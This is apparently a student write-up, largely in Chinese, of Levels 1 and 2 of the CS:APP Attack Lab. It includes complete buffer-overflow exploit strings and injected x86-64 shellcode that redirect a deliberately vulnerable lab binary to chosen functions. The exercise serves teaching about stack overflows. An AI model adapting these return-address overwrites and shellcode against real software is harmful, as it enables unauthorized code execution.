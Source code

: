 >This assignment involves generating a total of five attacks on two programs having different security vulnerabilities. Outcomes you will gain from this lab include:
>
>- You will learn different ways that attackers can exploit security vulnerabilities when programs do not safeguard themselves well enough against buffer overflows.
>- Through this, you will get a better understanding of how to write programs that are more secure, as well as some of the features provided by compilers and operating systems to make programs less vulnerable.
>- You will gain a deeper understanding of the stack and parameter-passing mechanisms of x86-64 machine code.
>- You will gain a deeper understanding of how x86-64 instructions are encoded.
>- You will gain more experience with debugging tools such as GDB and OBJDUMP.
>
>**Note**: In this lab, you will gain firsthand experience with methods used to exploit security weaknesses in operating systems and network servers. Our purpose is to help you learn about the runtime operation of programs and to understand the nature of these security weaknesses so that you can avoid them when you write system code. We do not condone the use of any other form of attack to gain unauthorized access to any system resources.
>
>You will want to study Sections 3.10.3 and 3.10.4 of the CS:APP3e book as reference material for this lab.

该lab要求我们利用栈溢出漏洞，实现攻击程序的功能。

规则如下：
>Here is a summary of some important rules regarding valid solutions for this lab. These points will not make much sense when you read this document for the first time. They are presented here as a central reference of rules once you get started.
>- You must do the assignment on a machine that is similar to the one that generated your targets.
>- Your solutions may not use attacks to circumvent the validation code in the programs. Specifically,
>any address you incorporate into an attack string for use by a ret instruction should be to one of the
>following destinations:
>   - The addresses for functions touch1, touch2, or touch3.
>   - The address of your injected code
>   - The address of one of your gadgets from the gadget farm.
>- You may only construct gadgets from file rtarget with addresses ranging between those for functions start_farm and end_farm.

当我们在进行代码注入攻击时只可以让程序跳转到touch1、touch2、touch3、gadget farm(farm.c)中的gadget或者我们注入的代码中,不可以让程序跳过检查逻辑。

当我们在进行ROP攻击时，只可以使用rtarget中提供的gadget(包含在farm.c中)。

# 辅助工具hex2raw说明
本次lab提供了一个辅助工具hex2raw，该工具允许我们输入16进制字节码，生成一个二进制文件，该二进制文件的内容就是输入的16进制字节码。

该工具要求输入的16进制字节码必须是以空格分隔的，每个字节码必须是两个16进制字符组成的。

同时该工具允许使用类C语言的注释，即以/\*开头，以\*/结尾的内容会被忽略。请保证注释的开始和结束是成对出现的。

该工具输出的字符如果进入命令行，很有可能会因为种种原因无法正常读取。所以我们可以选择先将输出结果暂存到一个文件中，然后再将该文件作为输入文件。

例如level1可以使用如下命令检查是否正确：
```bash
./hex2raw -i inputFileName > tempFileName
./ctarget -q -i tempFileName
```

# 如何生成二进制指令
在lab说明文档的附加B部分，提供了一个生成二进制指令的方法。

我们可以使用gcc编译器，将汇编代码编译成二进制文件，然后使用objdump工具将二进制文件转换成16进制字节码。

例如我们有一个编写好的汇编代码example.s。
```asm
# Example of hand-generated assembly code
    pushq $0xabcdef     # Push value onto stack
    addq $17,%rax       # Add 17 to %rax
    movl %eax,%edx      # Copy lower 32 bits to %edx
```

我们可以使用gcc编译器将其编译成二进制文件。
```bash
gcc -c example.s
```

然后我们可以使用objdump工具将二进制文件转换成16进制字节码。
```bash
objdump -d example.o > example.d
```

再通过hex2raw工具即可将16进制字节码转换成二进制文件。


# Part1: Code Injection Attacks
>For the first three phases, your exploit strings will attack CTARGET. This program is set up in a way that
the stack positions will be consistent from one run to the next and so that data on the stack can be treated as
executable code. These features make the program vulnerable to attacks where the exploit strings contain
the byte encodings of executable code.

ctarget程序没有开启栈随机化，所以每次运行时栈的位置都是固定的，而且程序允许我们将栈上的数据当作可执行代码来执行，这使得我们可以将我们的攻击代码注入到栈上。

## 1.1: Level 1
>Your task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement,
rather than returning to test. Note that your exploit string may also corrupt parts of the stack not directly
related to this stage, but this will not cause a problem, since touch1 causes the program to exit directly.

我们的目标是输入一个字符串让getbuf函数执行完后，跳转到touch1函数，而不是返回到test函数。

这题不需要我们注入代码，只需要让程序跳转到touch1函数即可。

简单来说就是通过栈溢出，覆盖掉返回地址，让程序跳转到touch1函数。

我们可以通过gdb调试程序，找到touch1函数的地址，然后构造一个字符串，让程序跳转到touch1函数即可。

通过GDB查看得到touch1函数的地址为0x4017c0。

同时我们需要知道getbuf函数的栈帧大小，这样我们才能知道我们需要填充多少字节才能覆盖到返回地址。通过GDB查看得到getbuf函数的栈帧大小为0x28。即40个字节。

最后要注意的是，我们需要将touch1函数的地址转换为小端字节序，因为x86-64是小端字节序。

最后的输入文件为：
```
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */ 
c0 17 40                      /* touch1函数的地址(小端序) */
```

## 1.2: Level 2
>Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case,
however, you must make it appear to touch2 as if you have passed your cookie as its argument.

这次我们不仅要让程序跳转到touch2函数，还要让touch2函数以为我们传递了一个cookie给它。

根据文档中的提示，输入的cookie通过寄存器%rdi传递给touch2函数。

因此我们在跳转到touch2函数之前，需要将cookie的值放到%rdi寄存器中。

我们可以把这个过程整理成一个函数，然后通过溢出覆盖返回地址。

在函数中我们修改%rdi寄存器的值，然后跳转到touch2函数。

我们需要在40个字节内完成该函数的编写。提示中说不要用call和jmp，因为这两个指令的代码较难构造，因此我们可以使用push和ret指令来实现。

汇编代码如下：
```asm
movq $0x59b997fa,%rdi   #将cookie的值放到%rdi寄存器中
pushq $0x4017ec         #将touch2的函数地址压栈
ret                     # 跳转到touch2函数
```

得到的16进制字节码为：
```
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3
```

我们选择将其起始地址置于原始栈顶的位置

通过GDB查看得到getbuf的栈顶位置为0x5561dc78，所以我们最后要通过溢出覆盖返回地址为0x5561dc78。

在此之前先将字节填充至40字节。

最后要注入的字符串为：
```
48 c7 c7 fa 97 b9 59        /* mov    $0x59b997fa,%rdi */
68 ec 17 40 00              /* pushq  $0x4017ec */
c3                          /* retq   */
00 00 00 00 00 00 00 00 00  /* 再填充27个字节 */
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
78 dc 61 55                 /* 0x5561dc78的小端序*/
```